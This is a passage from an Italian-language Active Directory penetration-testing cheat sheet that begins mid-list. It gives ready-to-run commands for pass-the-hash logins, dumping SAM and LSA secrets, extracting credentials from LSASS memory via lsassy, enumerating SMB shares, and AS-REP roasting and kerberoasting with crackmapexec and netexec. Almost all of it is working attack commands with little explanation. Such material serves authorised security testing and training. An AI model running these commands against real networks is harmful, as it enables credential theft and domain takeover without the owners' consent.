 ```bash
crackmapexec smb <DOMAIN> -u <USER> -p <PASSWORD> –users –-rid-brute
```

Identifichiamo i computer a cui abbiamo accesso con le credenziali ottenute:

```bash
crackmapexec smb <IP/CIDR> -u <USER> -p <PASSWORD> –d <DOMAIN>
```

oppure

```bash
crackmapexec smb <IP/CIDR> -u <USER> -H <NTLMv1-HASH> --local-auth
```

E se abbiamo accesso alle macchine con l’utente “administrator”, possiamo procedere con un local samdump

```bash
crackmapexec smb <IP/CIDR> -u <USER> -H <NTLMv1-HASH> --local-auth --sam
```

e con uno share enumeration per tutte le macchine (sia con password che con hash)

```bash
crackmapexec smb <IP/CIDR> -u <USER> -H <NTLMv1-HASH> --local-auth --shares
```

nonché un *lsa dumping* (fattibile anche con *secretsdump*)

```bash
crackmapexec smb <IP/CIDR> -u <USER> -H <NTLMv1-HASH> --local-auth --lsa
```

e infine provare col modulo lsassy (se ci sono *secret* stored nella memory)

```bash
crackmapexec smb <IP/CIDR> -u <USER> -H <NTLMv1-HASH> --local-auth -M lsassy
```

2. Rieseguire gli attacchi della prima fase utilizzando tutte le credenziali ottenute

```bash
enum4linux-ng -A -u <USER> -p <PASSWORD> <IP>
```

```bash
smbmap -u <USER> -p <PASSWORD> -H <IP>
```

```bash
smbclient //<IP>/<cartella_accessibile> -U <DOMAIN>/<user>%<password>
```

3. Tentare un *ASReproasting* con le credenziali ottenute

```bash
netexec ldap <IP> -u <user> -p <password> --asreproast <asrep.txt>
```

4. Tentare un attacco *kerberoasting* con le credenziali ottenute

```bash
netexec ldap <IP> -u <user> -p <password> --kerberoast <kerb.txt>
```
